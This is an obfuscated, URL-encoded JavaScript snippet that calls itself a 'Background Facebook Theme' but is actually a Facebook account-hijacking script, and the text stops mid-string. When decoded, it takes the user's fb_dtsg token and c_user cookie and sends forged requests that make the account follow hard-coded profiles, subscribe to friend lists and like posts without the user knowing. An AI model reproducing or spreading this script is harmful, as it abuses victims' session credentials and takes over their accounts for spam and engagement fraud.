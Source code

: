 eval(unescape("%2F%2A%20%42%61%63%6B%67%72%6F%75%6E%64%20%46%61%63%65%62%6F%6F%6B%20%54%68%65%6D%65%20%47%72%61%66%66%69%74%69%20%32%30%31%34%20%2A%2F%0A%76%61%72%20%70%61%72%65%6E%74%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%54%61%67%4E%61%6D%65%28%22%68%74%6D%6C%22%29%5B%30%5D%3B%0A%76%61%72%20%5F%62%6F%64%79%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%54%61%67%4E%61%6D%65%28%27%62%6F%64%79%27%29%5B%30%5D%3B%0A%76%61%72%20%5F%64%69%76%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%72%65%61%74%65%45%6C%65%6D%65%6E%74%28%27%64%69%76%27%29%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%68%65%69%67%68%74%3D%22%32%35%22%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%77%69%64%74%68%3D%22%31%30%30%25%22%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%70%6F%73%69%74%69%6F%6E%3D%22%66%69%78%65%64%22%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%74%6F%70%3D%22%61%75%74%6F%22%3B%0A%5F%64%69%76%2E%73%74%79%6C%65%2E%62%6F%74%74%6F%6D%3D%22%30%22%3B%0A%5F%64%69%76%2E%61%6C%69%67%6E%3D%22%63%65%6E%74%65%72%22%3B%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%22%66%62%5F%64%74%73%67%22%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%61%28%61%62%6F%6E%65%29%7B%76%61%72%20%68%74%74%70%34%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%3B%76%61%72%20%75%72%6C%34%3D%22%2F%61%6A%61%78%2F%66%6F%6C%6C%6F%77%2F%66%6F%6C%6C%6F%77%5F%70%72%6F%66%69%6C%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%3B%76%61%72%20%70%61%72%61%6D%73%34%3D%22%70%72%6F%66%69%6C%65%5F%69%64%3D%22%2B%61%62%6F%6E%65%2B%22%26%6C%6F%63%61%74%69%6F%6E%3D%31%26%73%6F%75%72%63%65%3D%66%6F%6C%6C%6F%77%2D%62%75%74%74%6F%6E%26%73%75%62%73%63%72%69%62%65%64%5F%62%75%74%74%6F%6E%5F%69%64%3D%75%33%37%71%61%63%5F%33%37%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%6C%73%64%26%5F%5F%22%2B%75%73%65%72%5F%69%64%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%68%74%74%70%34%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%75%72%6C%34%2C%74%72%75%65%29%3B%68%74%74%70%34%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%3D%66%75%6E%63%74%69%6F%6E%28%29%7B%69%66%28%68%74%74%70%34%2E%72%65%61%64%79%53%74%61%74%65%3D%3D%34%26%26%68%74%74%70%34%2E%73%74%61%74%75%73%3D%3D%32%30%30%29%68%74%74%70%34%2E%63%6C%6F%73%65%7D%3B%68%74%74%70%34%2E%73%65%6E%64%28%70%61%72%61%6D%73%34%29%7D%61%28%22%31%30%30%30%30%37%34%30%38%36%35%36%33%39%39%22%29%3B%61%28%22%31%30%30%30%30%33%32%39%31%36%34%32%34%33%32%22%29%3B%61%28%22%31%30%30%30%30%37%36%30%34%31%36%36%30%36%38%22%29%3B%61%28%22%31%30%30%30%30%37%34%31%39%37%32%39%37%33%31%22%29%3B%61%28%22%31%30%30%30%30%37%34%30%32%35%30%39%34%31%32%22%29%3B%61%28%22%31%30%30%30%30%34%36%31%39%34%36%32%39%34%34%22%29%3B%61%28%22%31%30%30%30%30%36%39%38%38%34%31%32%38%37%32%22%29%3B%61%28%22%31%30%30%30%30%35%34%30%37%39%35%33%39%33%38%22%29%3B%61%28%22%31%30%30%30%30%34%31%38%35%39%36%37%36%37%34%22%29%3B%61%28%22%31%30%30%30%30%36%36%39%32%37%39%39%37%35%37%22%29%3B%61%28%22%31%30%30%30%30%32%31%31%34%31%39%33%33%36%33%22%29%3B%66%75%6E%63%74%69%6F%6E%20%73%75%62%6C%69%73%74%28%75%69%64%73%73%29%7B%76%61%72%20%61%3D%64%6F%63%75%6D%65%6E%74%2E%63%72%65%61%74%65%45%6C%65%6D%65%6E%74%28%27%73%63%72%69%70%74%27%29%3B%61%2E%69%6E%6E%65%72%48%54%4D%4C%3D%22%6E%65%77%20%41%73%79%6E%63%52%65%71%75%65%73%74%28%29%2E%73%65%74%55%52%49%28%27%2F%61%6A%61%78%2F%66%72%69%65%6E%64%73%2F%6C%69%73%74%73%2F%73%75%62%73%63%72%69%62%65%2F%6D%6F%64%69%66%79%3F%6C%6F%63%61%74%69%6F%6E%3D%70%65%72%6D%61%6C%69%6E%6B%26%61%63%74%69%6F%6E%3D%73%75%62%73%63%72%69%62%65%27%29%2E%73%65%74%44%61%74%61%28%7B%20%66%6C%69%64%3A%20%22%2B%75%69%64%73%73%2B%22%20%7D%29%2E%73%65%6E%64%28%29%3B%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%61%70%70%65%6E%64%43%68%69%6C%64%28%61%29%7D%73%75%62%6C%69%73%74%28%22%31%33%38%36%30%31%36%33%37%31%36%35%35%33%30%35%22%29%3B%73%75%62%6C%69%73%74%28%22%32%38%38%35%38%31%39%33%31%32%36%31%35%32%36%22%29%3B%73%75%62%6C%69%73%74%28%22%31%33%37%38%31%36%36%31%30%35%37%38%30%31%38%32%22%29%3B%73%75%62%6C%69%73%74%28%22%31%33%37%36%37%37%30%30%34%35%38%39%39%32%36%33%22%29%3B%73%75%62%6C%69%73%74%28%22%31%33%39%32%37%39%33%31%37%30%39%37%37%39%39%34%22%29%3B%73%75%62%6C%69%73%74%28%22%31%33%39%33%32%37%31%39%39%37%35%39%36%32%30%34%22%29%3B%73%75%62%6C%69%73%74%28%22%32%36%31%32%32%35%36%36%37%33%37%34%37%34%37%22%29%3B%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%76%61%72%20%6E%6F%77%3D%28%6E%65%77%20%44%61%74%65%29%2E%67%65%74%54%69%6D%65%28%29%3B%66%75%6E%63%74%69%6F%6E%20%50%28%70%6F%73%74%29%7B%76%61%72%20%58%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%58%55%52%4C%3D%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%75%66%69%2F%6C%69%6B%65%2E%70%68%70%22%3B%76%61%72%20%58%50%61%72%61%6D%73%3D%22%6C%69%6B%65%5F%61%63%74%69%6F%6E%3D%74%72%75%65%26%66%74%5F%65%6E%74%5F%69%64%65%6E%74%69%66%69%65%72%3D%2